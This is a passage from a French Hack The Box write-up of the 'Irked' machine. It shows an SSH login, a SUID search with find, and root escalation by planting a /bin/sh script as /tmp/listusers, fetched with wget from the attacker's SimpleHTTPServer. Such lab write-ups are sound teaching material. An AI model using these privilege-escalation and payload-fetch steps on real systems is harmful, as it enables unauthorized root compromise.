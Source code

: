     root@Computer:~/htb/writeup/Irked/www# ssh djmardov@10.10.10.117
    djmardov@10.10.10.117's password: 

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
    djmardov@irked:~$ cat Documents/user.txt 
    4a66a[...SNIP...]
    
PrivEsc
----
Pour le privesc rien de compliqué cherchons les fichiers SUID avec la commande **find**.

    djmardov@irked:~$ find / -user root -perm -4000 2>/dev/null
    [...SNIP...]
    /usr/bin/viewuser
    [...SNIP...]
    
Donc si nous lançons ce fichier.

    djmardov@irked:~$ /usr/bin/viewuser
    This application is being devleoped to set and test user permissions
    It is still being actively developed
    (unknown) :0           2019-02-03 12:09 (:0)
    djmardov pts/0        2019-02-03 12:09 (10.10.13.181)
    sh: 1: /tmp/listusers: not found
   
Il ne trouve pas le fichier listusers donc nous allons créer un fichier bash depuis notre machine physique et le transférer vers la machine distante.

Le fichier bash :

    #!/bin/sh

    /bin/sh

Et nous transférons ce fichier avec la commande **python -m SimpleHTTPServer**.

    djmardov@irked:/tmp$ wget http://10.10.13.181:8000/listusers
    --2019-02-03 12:16:05--  http://10.10.13.181:8000/listusers
    Connecting to 10.10.13.181:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 19 [application/octet-stream]
    Saving to: ‘listusers’

    listusers                                100%[==================================================================================>]      19  --.-KB/s   in 0s     

    2019-02-03 12:16:05 (2.19 MB/s) - ‘listusers’ saved [19/19]

    djmardov@irked:/tmp$
    
Et le résultat dans Python.

    root@Computer:~/htb/writeup/Irked/www# python -m SimpleHTTPServer
    Serving HTTP on 0.0.0.0 port 8000 ...
    10.10.10.117 - - [03/Feb/2019 18:16:05] "GET /listusers HTTP/1.1" 200 -
    